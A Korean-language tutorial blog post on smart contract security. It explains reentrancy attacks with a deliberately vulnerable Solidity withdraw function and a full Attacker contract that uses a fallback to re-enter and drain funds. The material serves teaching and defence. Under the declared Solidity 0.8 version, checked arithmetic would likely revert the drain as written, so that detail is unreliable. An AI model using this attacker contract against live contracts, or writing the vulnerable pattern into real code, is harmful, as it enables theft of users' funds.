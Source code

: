 ```yaml
---
layout: post
title: "Smart Contract Vulnerabilities"
date: 2023-11-25 10:29:53
excerpt: <b>&#35;Smart Contract, &#35;Solidity, &#35;Vulnerability</b>
---
```

## 목차
- [Smart Contract의 보안성](#smart-contract의-보안성)
- [Reentrancy Attacks](#reentrancy-attacks)

---
## Smart Contract의 보안성

Smart Contract는 사용자가 원하는 계약의 조건을 Solidity와 같은 언어를 이용해 코드로 작성해서 블록체인 네트워크에 배포한다. 결국 이 Smart Contract는 사용자가 작성한 코드이기 때문에 취약점이 있을 수밖에 없다. 또한 Smart Contract는 블록체인의 특성인 불변성에 따라서 한 번 배포된 이후에는 변경될 수 없기 때문에 Smart Contract를 작성할 때는 신중해야 한다.

이 Smart Contract에서 발생할 수 있는 취약점은 Reentrancy, Missing Access Controls, Weak Access Controls, Privilege Escalation, Governance를 포함한 다양한 취약점이 있다.

---
## Reentrancy Attacks

재진입 공격은 일반적으로 스마트 컨트랙트 내부에서 외부 컨트랙트나 함수를 호출할 때 발생하는데, 트랜잭션이 끝나기 전에 공격자가 함수 호출을 재진입하여 컨트랙트의 상태를 변경할 수 있는 취약점이다. (자금 유출, 상태 변조, Dos와 같은 것들로 이어질 수 있다.)

```solidity
pragma solidity ^0.8.0;

contract Vulnerable {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
        balances[msg.sender] -= _amount;
    }
}
```
위의 코드는 간단한 계정 입출금을 처리하는 스마트 컨트랙트이다. `deposit()` 함수를 호출하여 잔액을 입금하고, `withdraw()` 함수를 호출하여 잔액을 출금할 수 있다. 위 코드를 분석해 보면 하나의 취약점이 있다. `withdraw()` 함수에서 잘못된 방식으로 외부로 돈을 출금하고 있다. 구현되어 있는 로직을 보면 돈을 먼저 출금한 이후에 사용자의 잔액을 차감하고 있다. 이 경우에 트랜잭션이 끝나기 전에 공격자는 `withdraw()` 함수를 재호출할 수 있다.

![](https://substackcdn.com/image/fetch/f_auto,q_auto:good,fl_progressive:steep/https%3A%2F%2Fbucketeer-e05bbc84-baa3-437e-9518-adb32be77984.s3.amazonaws.com%2Fpublic%2Fimages%2Fc889fbc8-ca9c-47cd-91fb-07fcd1ab987c_1518x801.png)

재진입 공격을 구성도로 나타내면 위와 같다. 재진입 공격에 취약한 스마트 컨트랙트는 잔액 출금 트랜잭션이 끝난 이후에 잔액을 차감한다. 그러나 출금 트랜잭션이 끝나기 전에 `fallback()` 또는 `receive()` 함수를 통해서 취약한 컨트랙트의 `withdraw()` 함수를 재호출함으로 잔액이 차감되기 전에 다시 컨트랙트 내에 있는 자금을 해커의 잔액만큼 계속 가져올 수 있다. (해커의 잔액이 0으로 업데이트되지 않았기 때문에 출금이 되었더라도 현재 잔액은 그대로 저장되어 있음.)

```solidity
contract Attacker {
    Vulnerable vulnerable;

    constructor(address _vulnerableAddress) {
        vulnerable = Vulnerable(_vulnerableAddress);
    }

    function attack() public payable {
        vulnerable.deposit{value: msg.value}();
        vulnerable.withdraw(msg.value);
    }

    fallback() external payable {
        if (address(vulnerable).balance >= msg.value) {
            vulnerable.withdraw(msg.value);
        }
    }
}
```
재진입 공격 코드는 위와 같이 작성할 수 있다. 취약한 컨트랙트의 `deposit()` 함수를 이용해서 이더를 송금한 이후에 `withdraw()` 함수를 이용해서 잔액을 출금한다. 이때 취약한 컨트랙트에서 Attacker 컨트랙트로 돈을 송금하면 fallback() 함수가 호출된다. 이 fallback() 함수 내에서 바로 취약한 컨트랙트의 `withdraw()` 함수를 재호출해서 잔액을 다시 출금할 수 있다.